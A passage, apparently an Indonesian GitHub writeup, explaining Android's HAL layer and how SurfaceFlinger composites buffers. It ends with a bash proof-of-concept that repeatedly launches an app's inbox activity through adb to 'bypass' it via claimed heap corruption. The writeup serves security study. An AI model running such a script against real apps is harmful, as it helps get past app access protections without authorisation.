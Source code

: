 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Layer HAL sebenarnya menjembatani keterbatasan antara _software_ yang berjalan di Android dan _hardware_ yang sebenarnya bertanggung jawab untuk menjalankan sistem operasi. Layer ini memungkinkan Android berjalan secara efektif di ribuan perangkat yang berbeda.

**Darimana _SurfaceFlinger_ mendapatkan _buffer_?**

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Di sebagian besar aplikasi Android, `SurfaceFlinger` memiliki akses ke tiga buffer berbeda. Buffer untuk **Bar Status**, **Bar Navigasi**, dan buffer untuk **konten aplikasi**. 

![3parts](https://user-images.githubusercontent.com/25837540/71321357-c4261a00-24ea-11ea-89fd-69d32a4f66ff.jpg)

**Jadi, ada berapa banyak _buffer_?**

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Dalam sebagian besar aplikasi, Anda hanya akan mendapatkan 3 buffer, bisa lebih dan atau mungkin kurang dari 3 buffer.

Kita tahu bahwa kita dapat menyembunyikan Bar Status dengan mengatur `flag WindowManager` yang sesuai _(atau menggunakan tema yang bisa menghilangkan Bar Status dan/ aplikasi tersebut memang dalam mode full-screen)_. Dalam kasus ini, berarti hanya memiliki 2 buffer.

Contoh lain, kita dapat memiliki 4 atau lebih buffer dengan menyertakan `SurfaceView` dalam aplikasi kita. Setiap `SurfaceView` akan memiliki buffer sendiri yang disusun oleh `SurfaceFlinger` _(bukan dari aplikasi)_.

**Bagaimana _SurfaceFlinger_ berkerja?**

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Google telah membuat diagram keren yang menunjukkan aliran data dari awal hingga me-rendernya.

![ape_fwk_graphics](https://user-images.githubusercontent.com/25837540/71321386-0e0f0000-24eb-11ea-9741-8f44655fdce7.png)

Pada gambar di atas, Anda dapat melihat bahwa banyak komponen berbeda dapat membuat data buffer. Data buffer masuk ke `SurfaceFlinger` _(atau aplikasi OpenGL ES)_ dan akhirnya ke HAL sehingga dapat ditampilkan di layar.

### Proof of Concept

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Saya coba membuat script bash pengulangan pelompatatan aktivitas sederhana untuk melakukan `heap corruption`.

```bash
#!/bin/bash

c=0
GREEN="\033[0;32m"
YELLOW="\033[0;33m"
NC="\033[0m"

while :;
do
	TIME="[$(date +%T)]"
	START=$(adb shell am start -n com.package.name/.android.activities.InboxActivity)
	if [[ $START == *"Warning"* ]]; then
		if [[ $c != 0 ]]; then
			echo -e "${GREEN}${TIME} Bypass OK!${NC}"
			exit
		else
			echo -e "${YELLOW}${TIME} Try more${NC}"
			((c++))
		fi
	else
		echo -e "${TIME} Bypassing..."
		c=0
	fi
done
```
